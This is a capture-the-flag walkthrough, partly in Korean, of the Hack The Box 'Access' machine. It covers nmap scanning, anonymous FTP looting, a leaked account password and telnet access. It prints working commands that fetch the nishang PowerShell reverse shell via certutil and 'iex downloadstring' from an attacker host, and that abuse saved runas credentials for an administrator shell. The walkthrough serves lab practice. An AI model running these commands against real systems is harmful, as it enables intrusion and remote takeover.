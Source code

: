 # Access

## HOST IP: 10.129.52.215

Performed an Nmap scan to identify open ports and running services on the target host(10.129.52.215)

```bash
nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 10.129.52.215

PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

nmap -sV -sC -oA nmap/Access 10.129.52.215 -p 21,23,80

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

21 FTP, 23 TELNET, 80 HTTP
Anonymous FTP login allowed try to login Anonymous

```bash
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
File may not have transferred correctly.

ftp> bin
200 Type set to I.

ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
226 Transfer complete.
5652480 bytes received in 00:08 (615.93 KiB/s)

ftp> get Access\ Control.zip
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
226 Transfer complete.
10870 bytes received in 00:00 (17.04 KiB/s)
```

ftp 접속해서 Access Control.zip backup.mdb 다운

backup.mdb에서 데이터 추출

![alt text](img/image-3.png)

![alt text](img/image-2.png)

알아낸 비밀번호로 Access Control.zip 압축해제

![alt text](img/image-4.png)

![alt text](img/image-5.png)

![alt text](img/image-6.png)

john이 security 계정정보가 바뀐것에 대한 메일내용이 모함되어있음  
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller  
계정 정보를 사용해서 telnet접속
![alt text](img/image-7.png)

```cmd
C:\Users\security\Desktop>type user.txt
303dce8e274e7a8b81e95bca4fe5d9cf
```

## POST-EXPLOIT

![alt text](img/image-9.png)

관리자 계정(ACCESS\Administrator)으로 runas 실행하는 구조

![alt text](img/image-8.png)

해당 계정의 자격 증명이 윈도우 자격 증명 관리자에 저장돼 있음

> https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1  
> 윈도우 리버스셸 다운 후 대상호스트 윈도우에 전송해서 관리자 권한 리버스셸 연결 시도

```bash
# attacker kali
wget https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

#Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.76 -Port 9999 파일 아래에 해당 코드 추가
python -m http.server 8000
nc -nlvp 9999

# target host
certutil -urlcache -f http://10.10.14.76:8000/Invoke-PowerShellTcp.ps1 C:\Users\security\Desktop\Invoke-PowerShellTcp.ps1

runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.76:8000/Invoke-PowerShellTcp.ps1')"

```

![alt text](img/image-10.png)
관리자 권한을 얻었다

![alt text](img/image-11.png)

